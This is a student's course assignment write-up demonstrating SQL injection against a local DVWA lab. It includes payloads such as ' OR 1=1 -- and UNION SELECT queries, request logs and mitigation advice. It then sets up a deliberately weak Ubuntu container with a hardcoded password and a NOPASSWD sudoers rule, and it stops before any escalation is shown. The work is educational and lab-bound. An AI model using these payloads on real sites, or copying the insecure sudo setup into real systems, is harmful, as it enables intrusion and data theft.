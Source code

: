 Ruben Valdez <br>
Intrusion Detection and Hacker Exploits | CSEC 5350 <br>
Prof. Robert Jones <br>
Assignment_2: Breaking and Entering: A Controlled Exploit <br>
Due: April 3, 2025 <br><br>



# Option 3: Controlled Web Exploitation
    - Select a web vulnerability (SQL Injection, XSS, or CSRF) and demonstrate exploitation in a lab environment.
    - Validate findings by manually crafting payloads and analyzing responses.
    - Provide recommendations for mitigation.
    - Deliverables: Attack methodology, request/response logs, proof of exploitation.


## Lab Environment

1. Installed DVWA docker image `sudo docker pull vulnerables/web-dvwa`

    ![alt text](image-1.png)

    ![alt text](image-2.png)

2. Success, accessed the DVWA site at `http://localhost:8080/login.php`

    ![alt text](image-3.png)

<br><br>

## SQLi

1. ***Attack Methodoly***
    - Target: `http://localhost:8080/vulnerabilities/sqli/`
    - Vulnerable Input Field: `User ID`
    - Parameter: `id passed via GET request`

    ![alt text](image-4.png)

2. Exploitation with Manually Crafted Payloads

    - 1st Test: Authentication Bypass / Data Dump

        The app returned a valid record without proper ID — confirms classic SQLi.

        - Manual exploitation using `' OR 1=1 --`

            ![alt text](image-5.png)

        - URL Generated exploitation using `http://localhost:8080/vulnerabilities/sqli/?id=' OR 1=1 -- &Submit=Submit#`

            ![alt text](image-6.png)

    - 2nd Test: Database Version Discovery

        Leaked DB version via injection.

        - Manual exploitation payload using `1' UNION SELECT null, version() --`

            ![alt text](image-7.png)

        - URL Payload delivery using `http://localhost:8080/vulnerabilities/sqli/?id=1'+UNION+SELECT+null,version()+--+&Submit=Submit#`

            ![alt text](image-8.png)


    - 3rd Test: Current DB User

        Current DB user revealed.

        - Manual Exploitation payload using `1' UNION SELECT null, user() -- `

            ![alt text](image-9.png)

3. Request/Response Logs

    - Used `Firefox Web Developer Tools` to access the request and response logs with the `Network` tab

        ![alt text](image-10.png)

    - Entered the following payload manually in the User ID field:  `GET /vulnerabilities/sqli/?id=' OR 1=1 -- &Submit=Submit HTTP/1.1` and looked for the html file to grab the below curl site. 

        - To copy the curl follow these steps:  `Right clicked > Copy Value > Copy as Curl`

                curl 'http://localhost:8080/vulnerabilities/sqli/?id=id%3D%27+OR+1%3D1+--&Submit=Submit#' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/vulnerabilities/sqli/?id=GET+%2Fvulnerabilities%2Fsqli%2F%3Fid%3D%27+OR+1%3D1+--+%26Submit%3DSubmit+HTTP%2F1.1&Submit=Submit' -H 'Cookie: PHPSESSID=9ppv1j9h8u9ggrpr23pmon3an1; security=low' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i'

            ![alt text](image-11.png)

            ![alt text](image-12.png)

4. Recommendations for Mitigation

    - Use Parameterized Queries / Prepared Statements	
        - Avoid directly including user input in SQL queries
    - Input Validation	
        - Use server-side validation and whitelist expected formats
    - Least Privilege DB Accounts	
        - DB user should not have access to sensitive or admin-level data
    - Error Handling	
        - Disable verbose SQL errors shown to users
    - WAFs	
        - Add Web Application Firewall to detect and block malicious inputs

<br><br>


# Option 4: Post-Exploitation & Privilege Escalation
    - Perform post-exploitation techniques after gaining access to a vulnerable system.
    - Techniques may include privilege escalation, credential dumping, or lateral movement.
    - Explain how real-world attackers use these techniques after initial compromise.
    - Deliverables: Walkthrough of the escalation method, captured credentials or access verification.

## Lab Environment

1. Ubuntu docker install

        sudo docker pull ubuntu:20.04
        docker run -it --name vuln-ubuntu --hostname vuln-target --rm ubuntu:20.04 /bin/bash
        apt update && apt install -y sudo net-tools

2. Inside the container, created a vulnerable user who can run cat and sudo w/o a password

        apt update && apt install -y sudo net-tools
        useradd -m hacker
        echo 'hacker:hackme123' | chpasswd
        echo 'hacker ALL=(ALL) NOPASSWD: /bin/cat' >> /etc/sudoers
        su - hacker

    ![alt text](image-13.png)

    `ifconfig`

    ![alt text](image-14.png)


3. Initial access FROM Kali


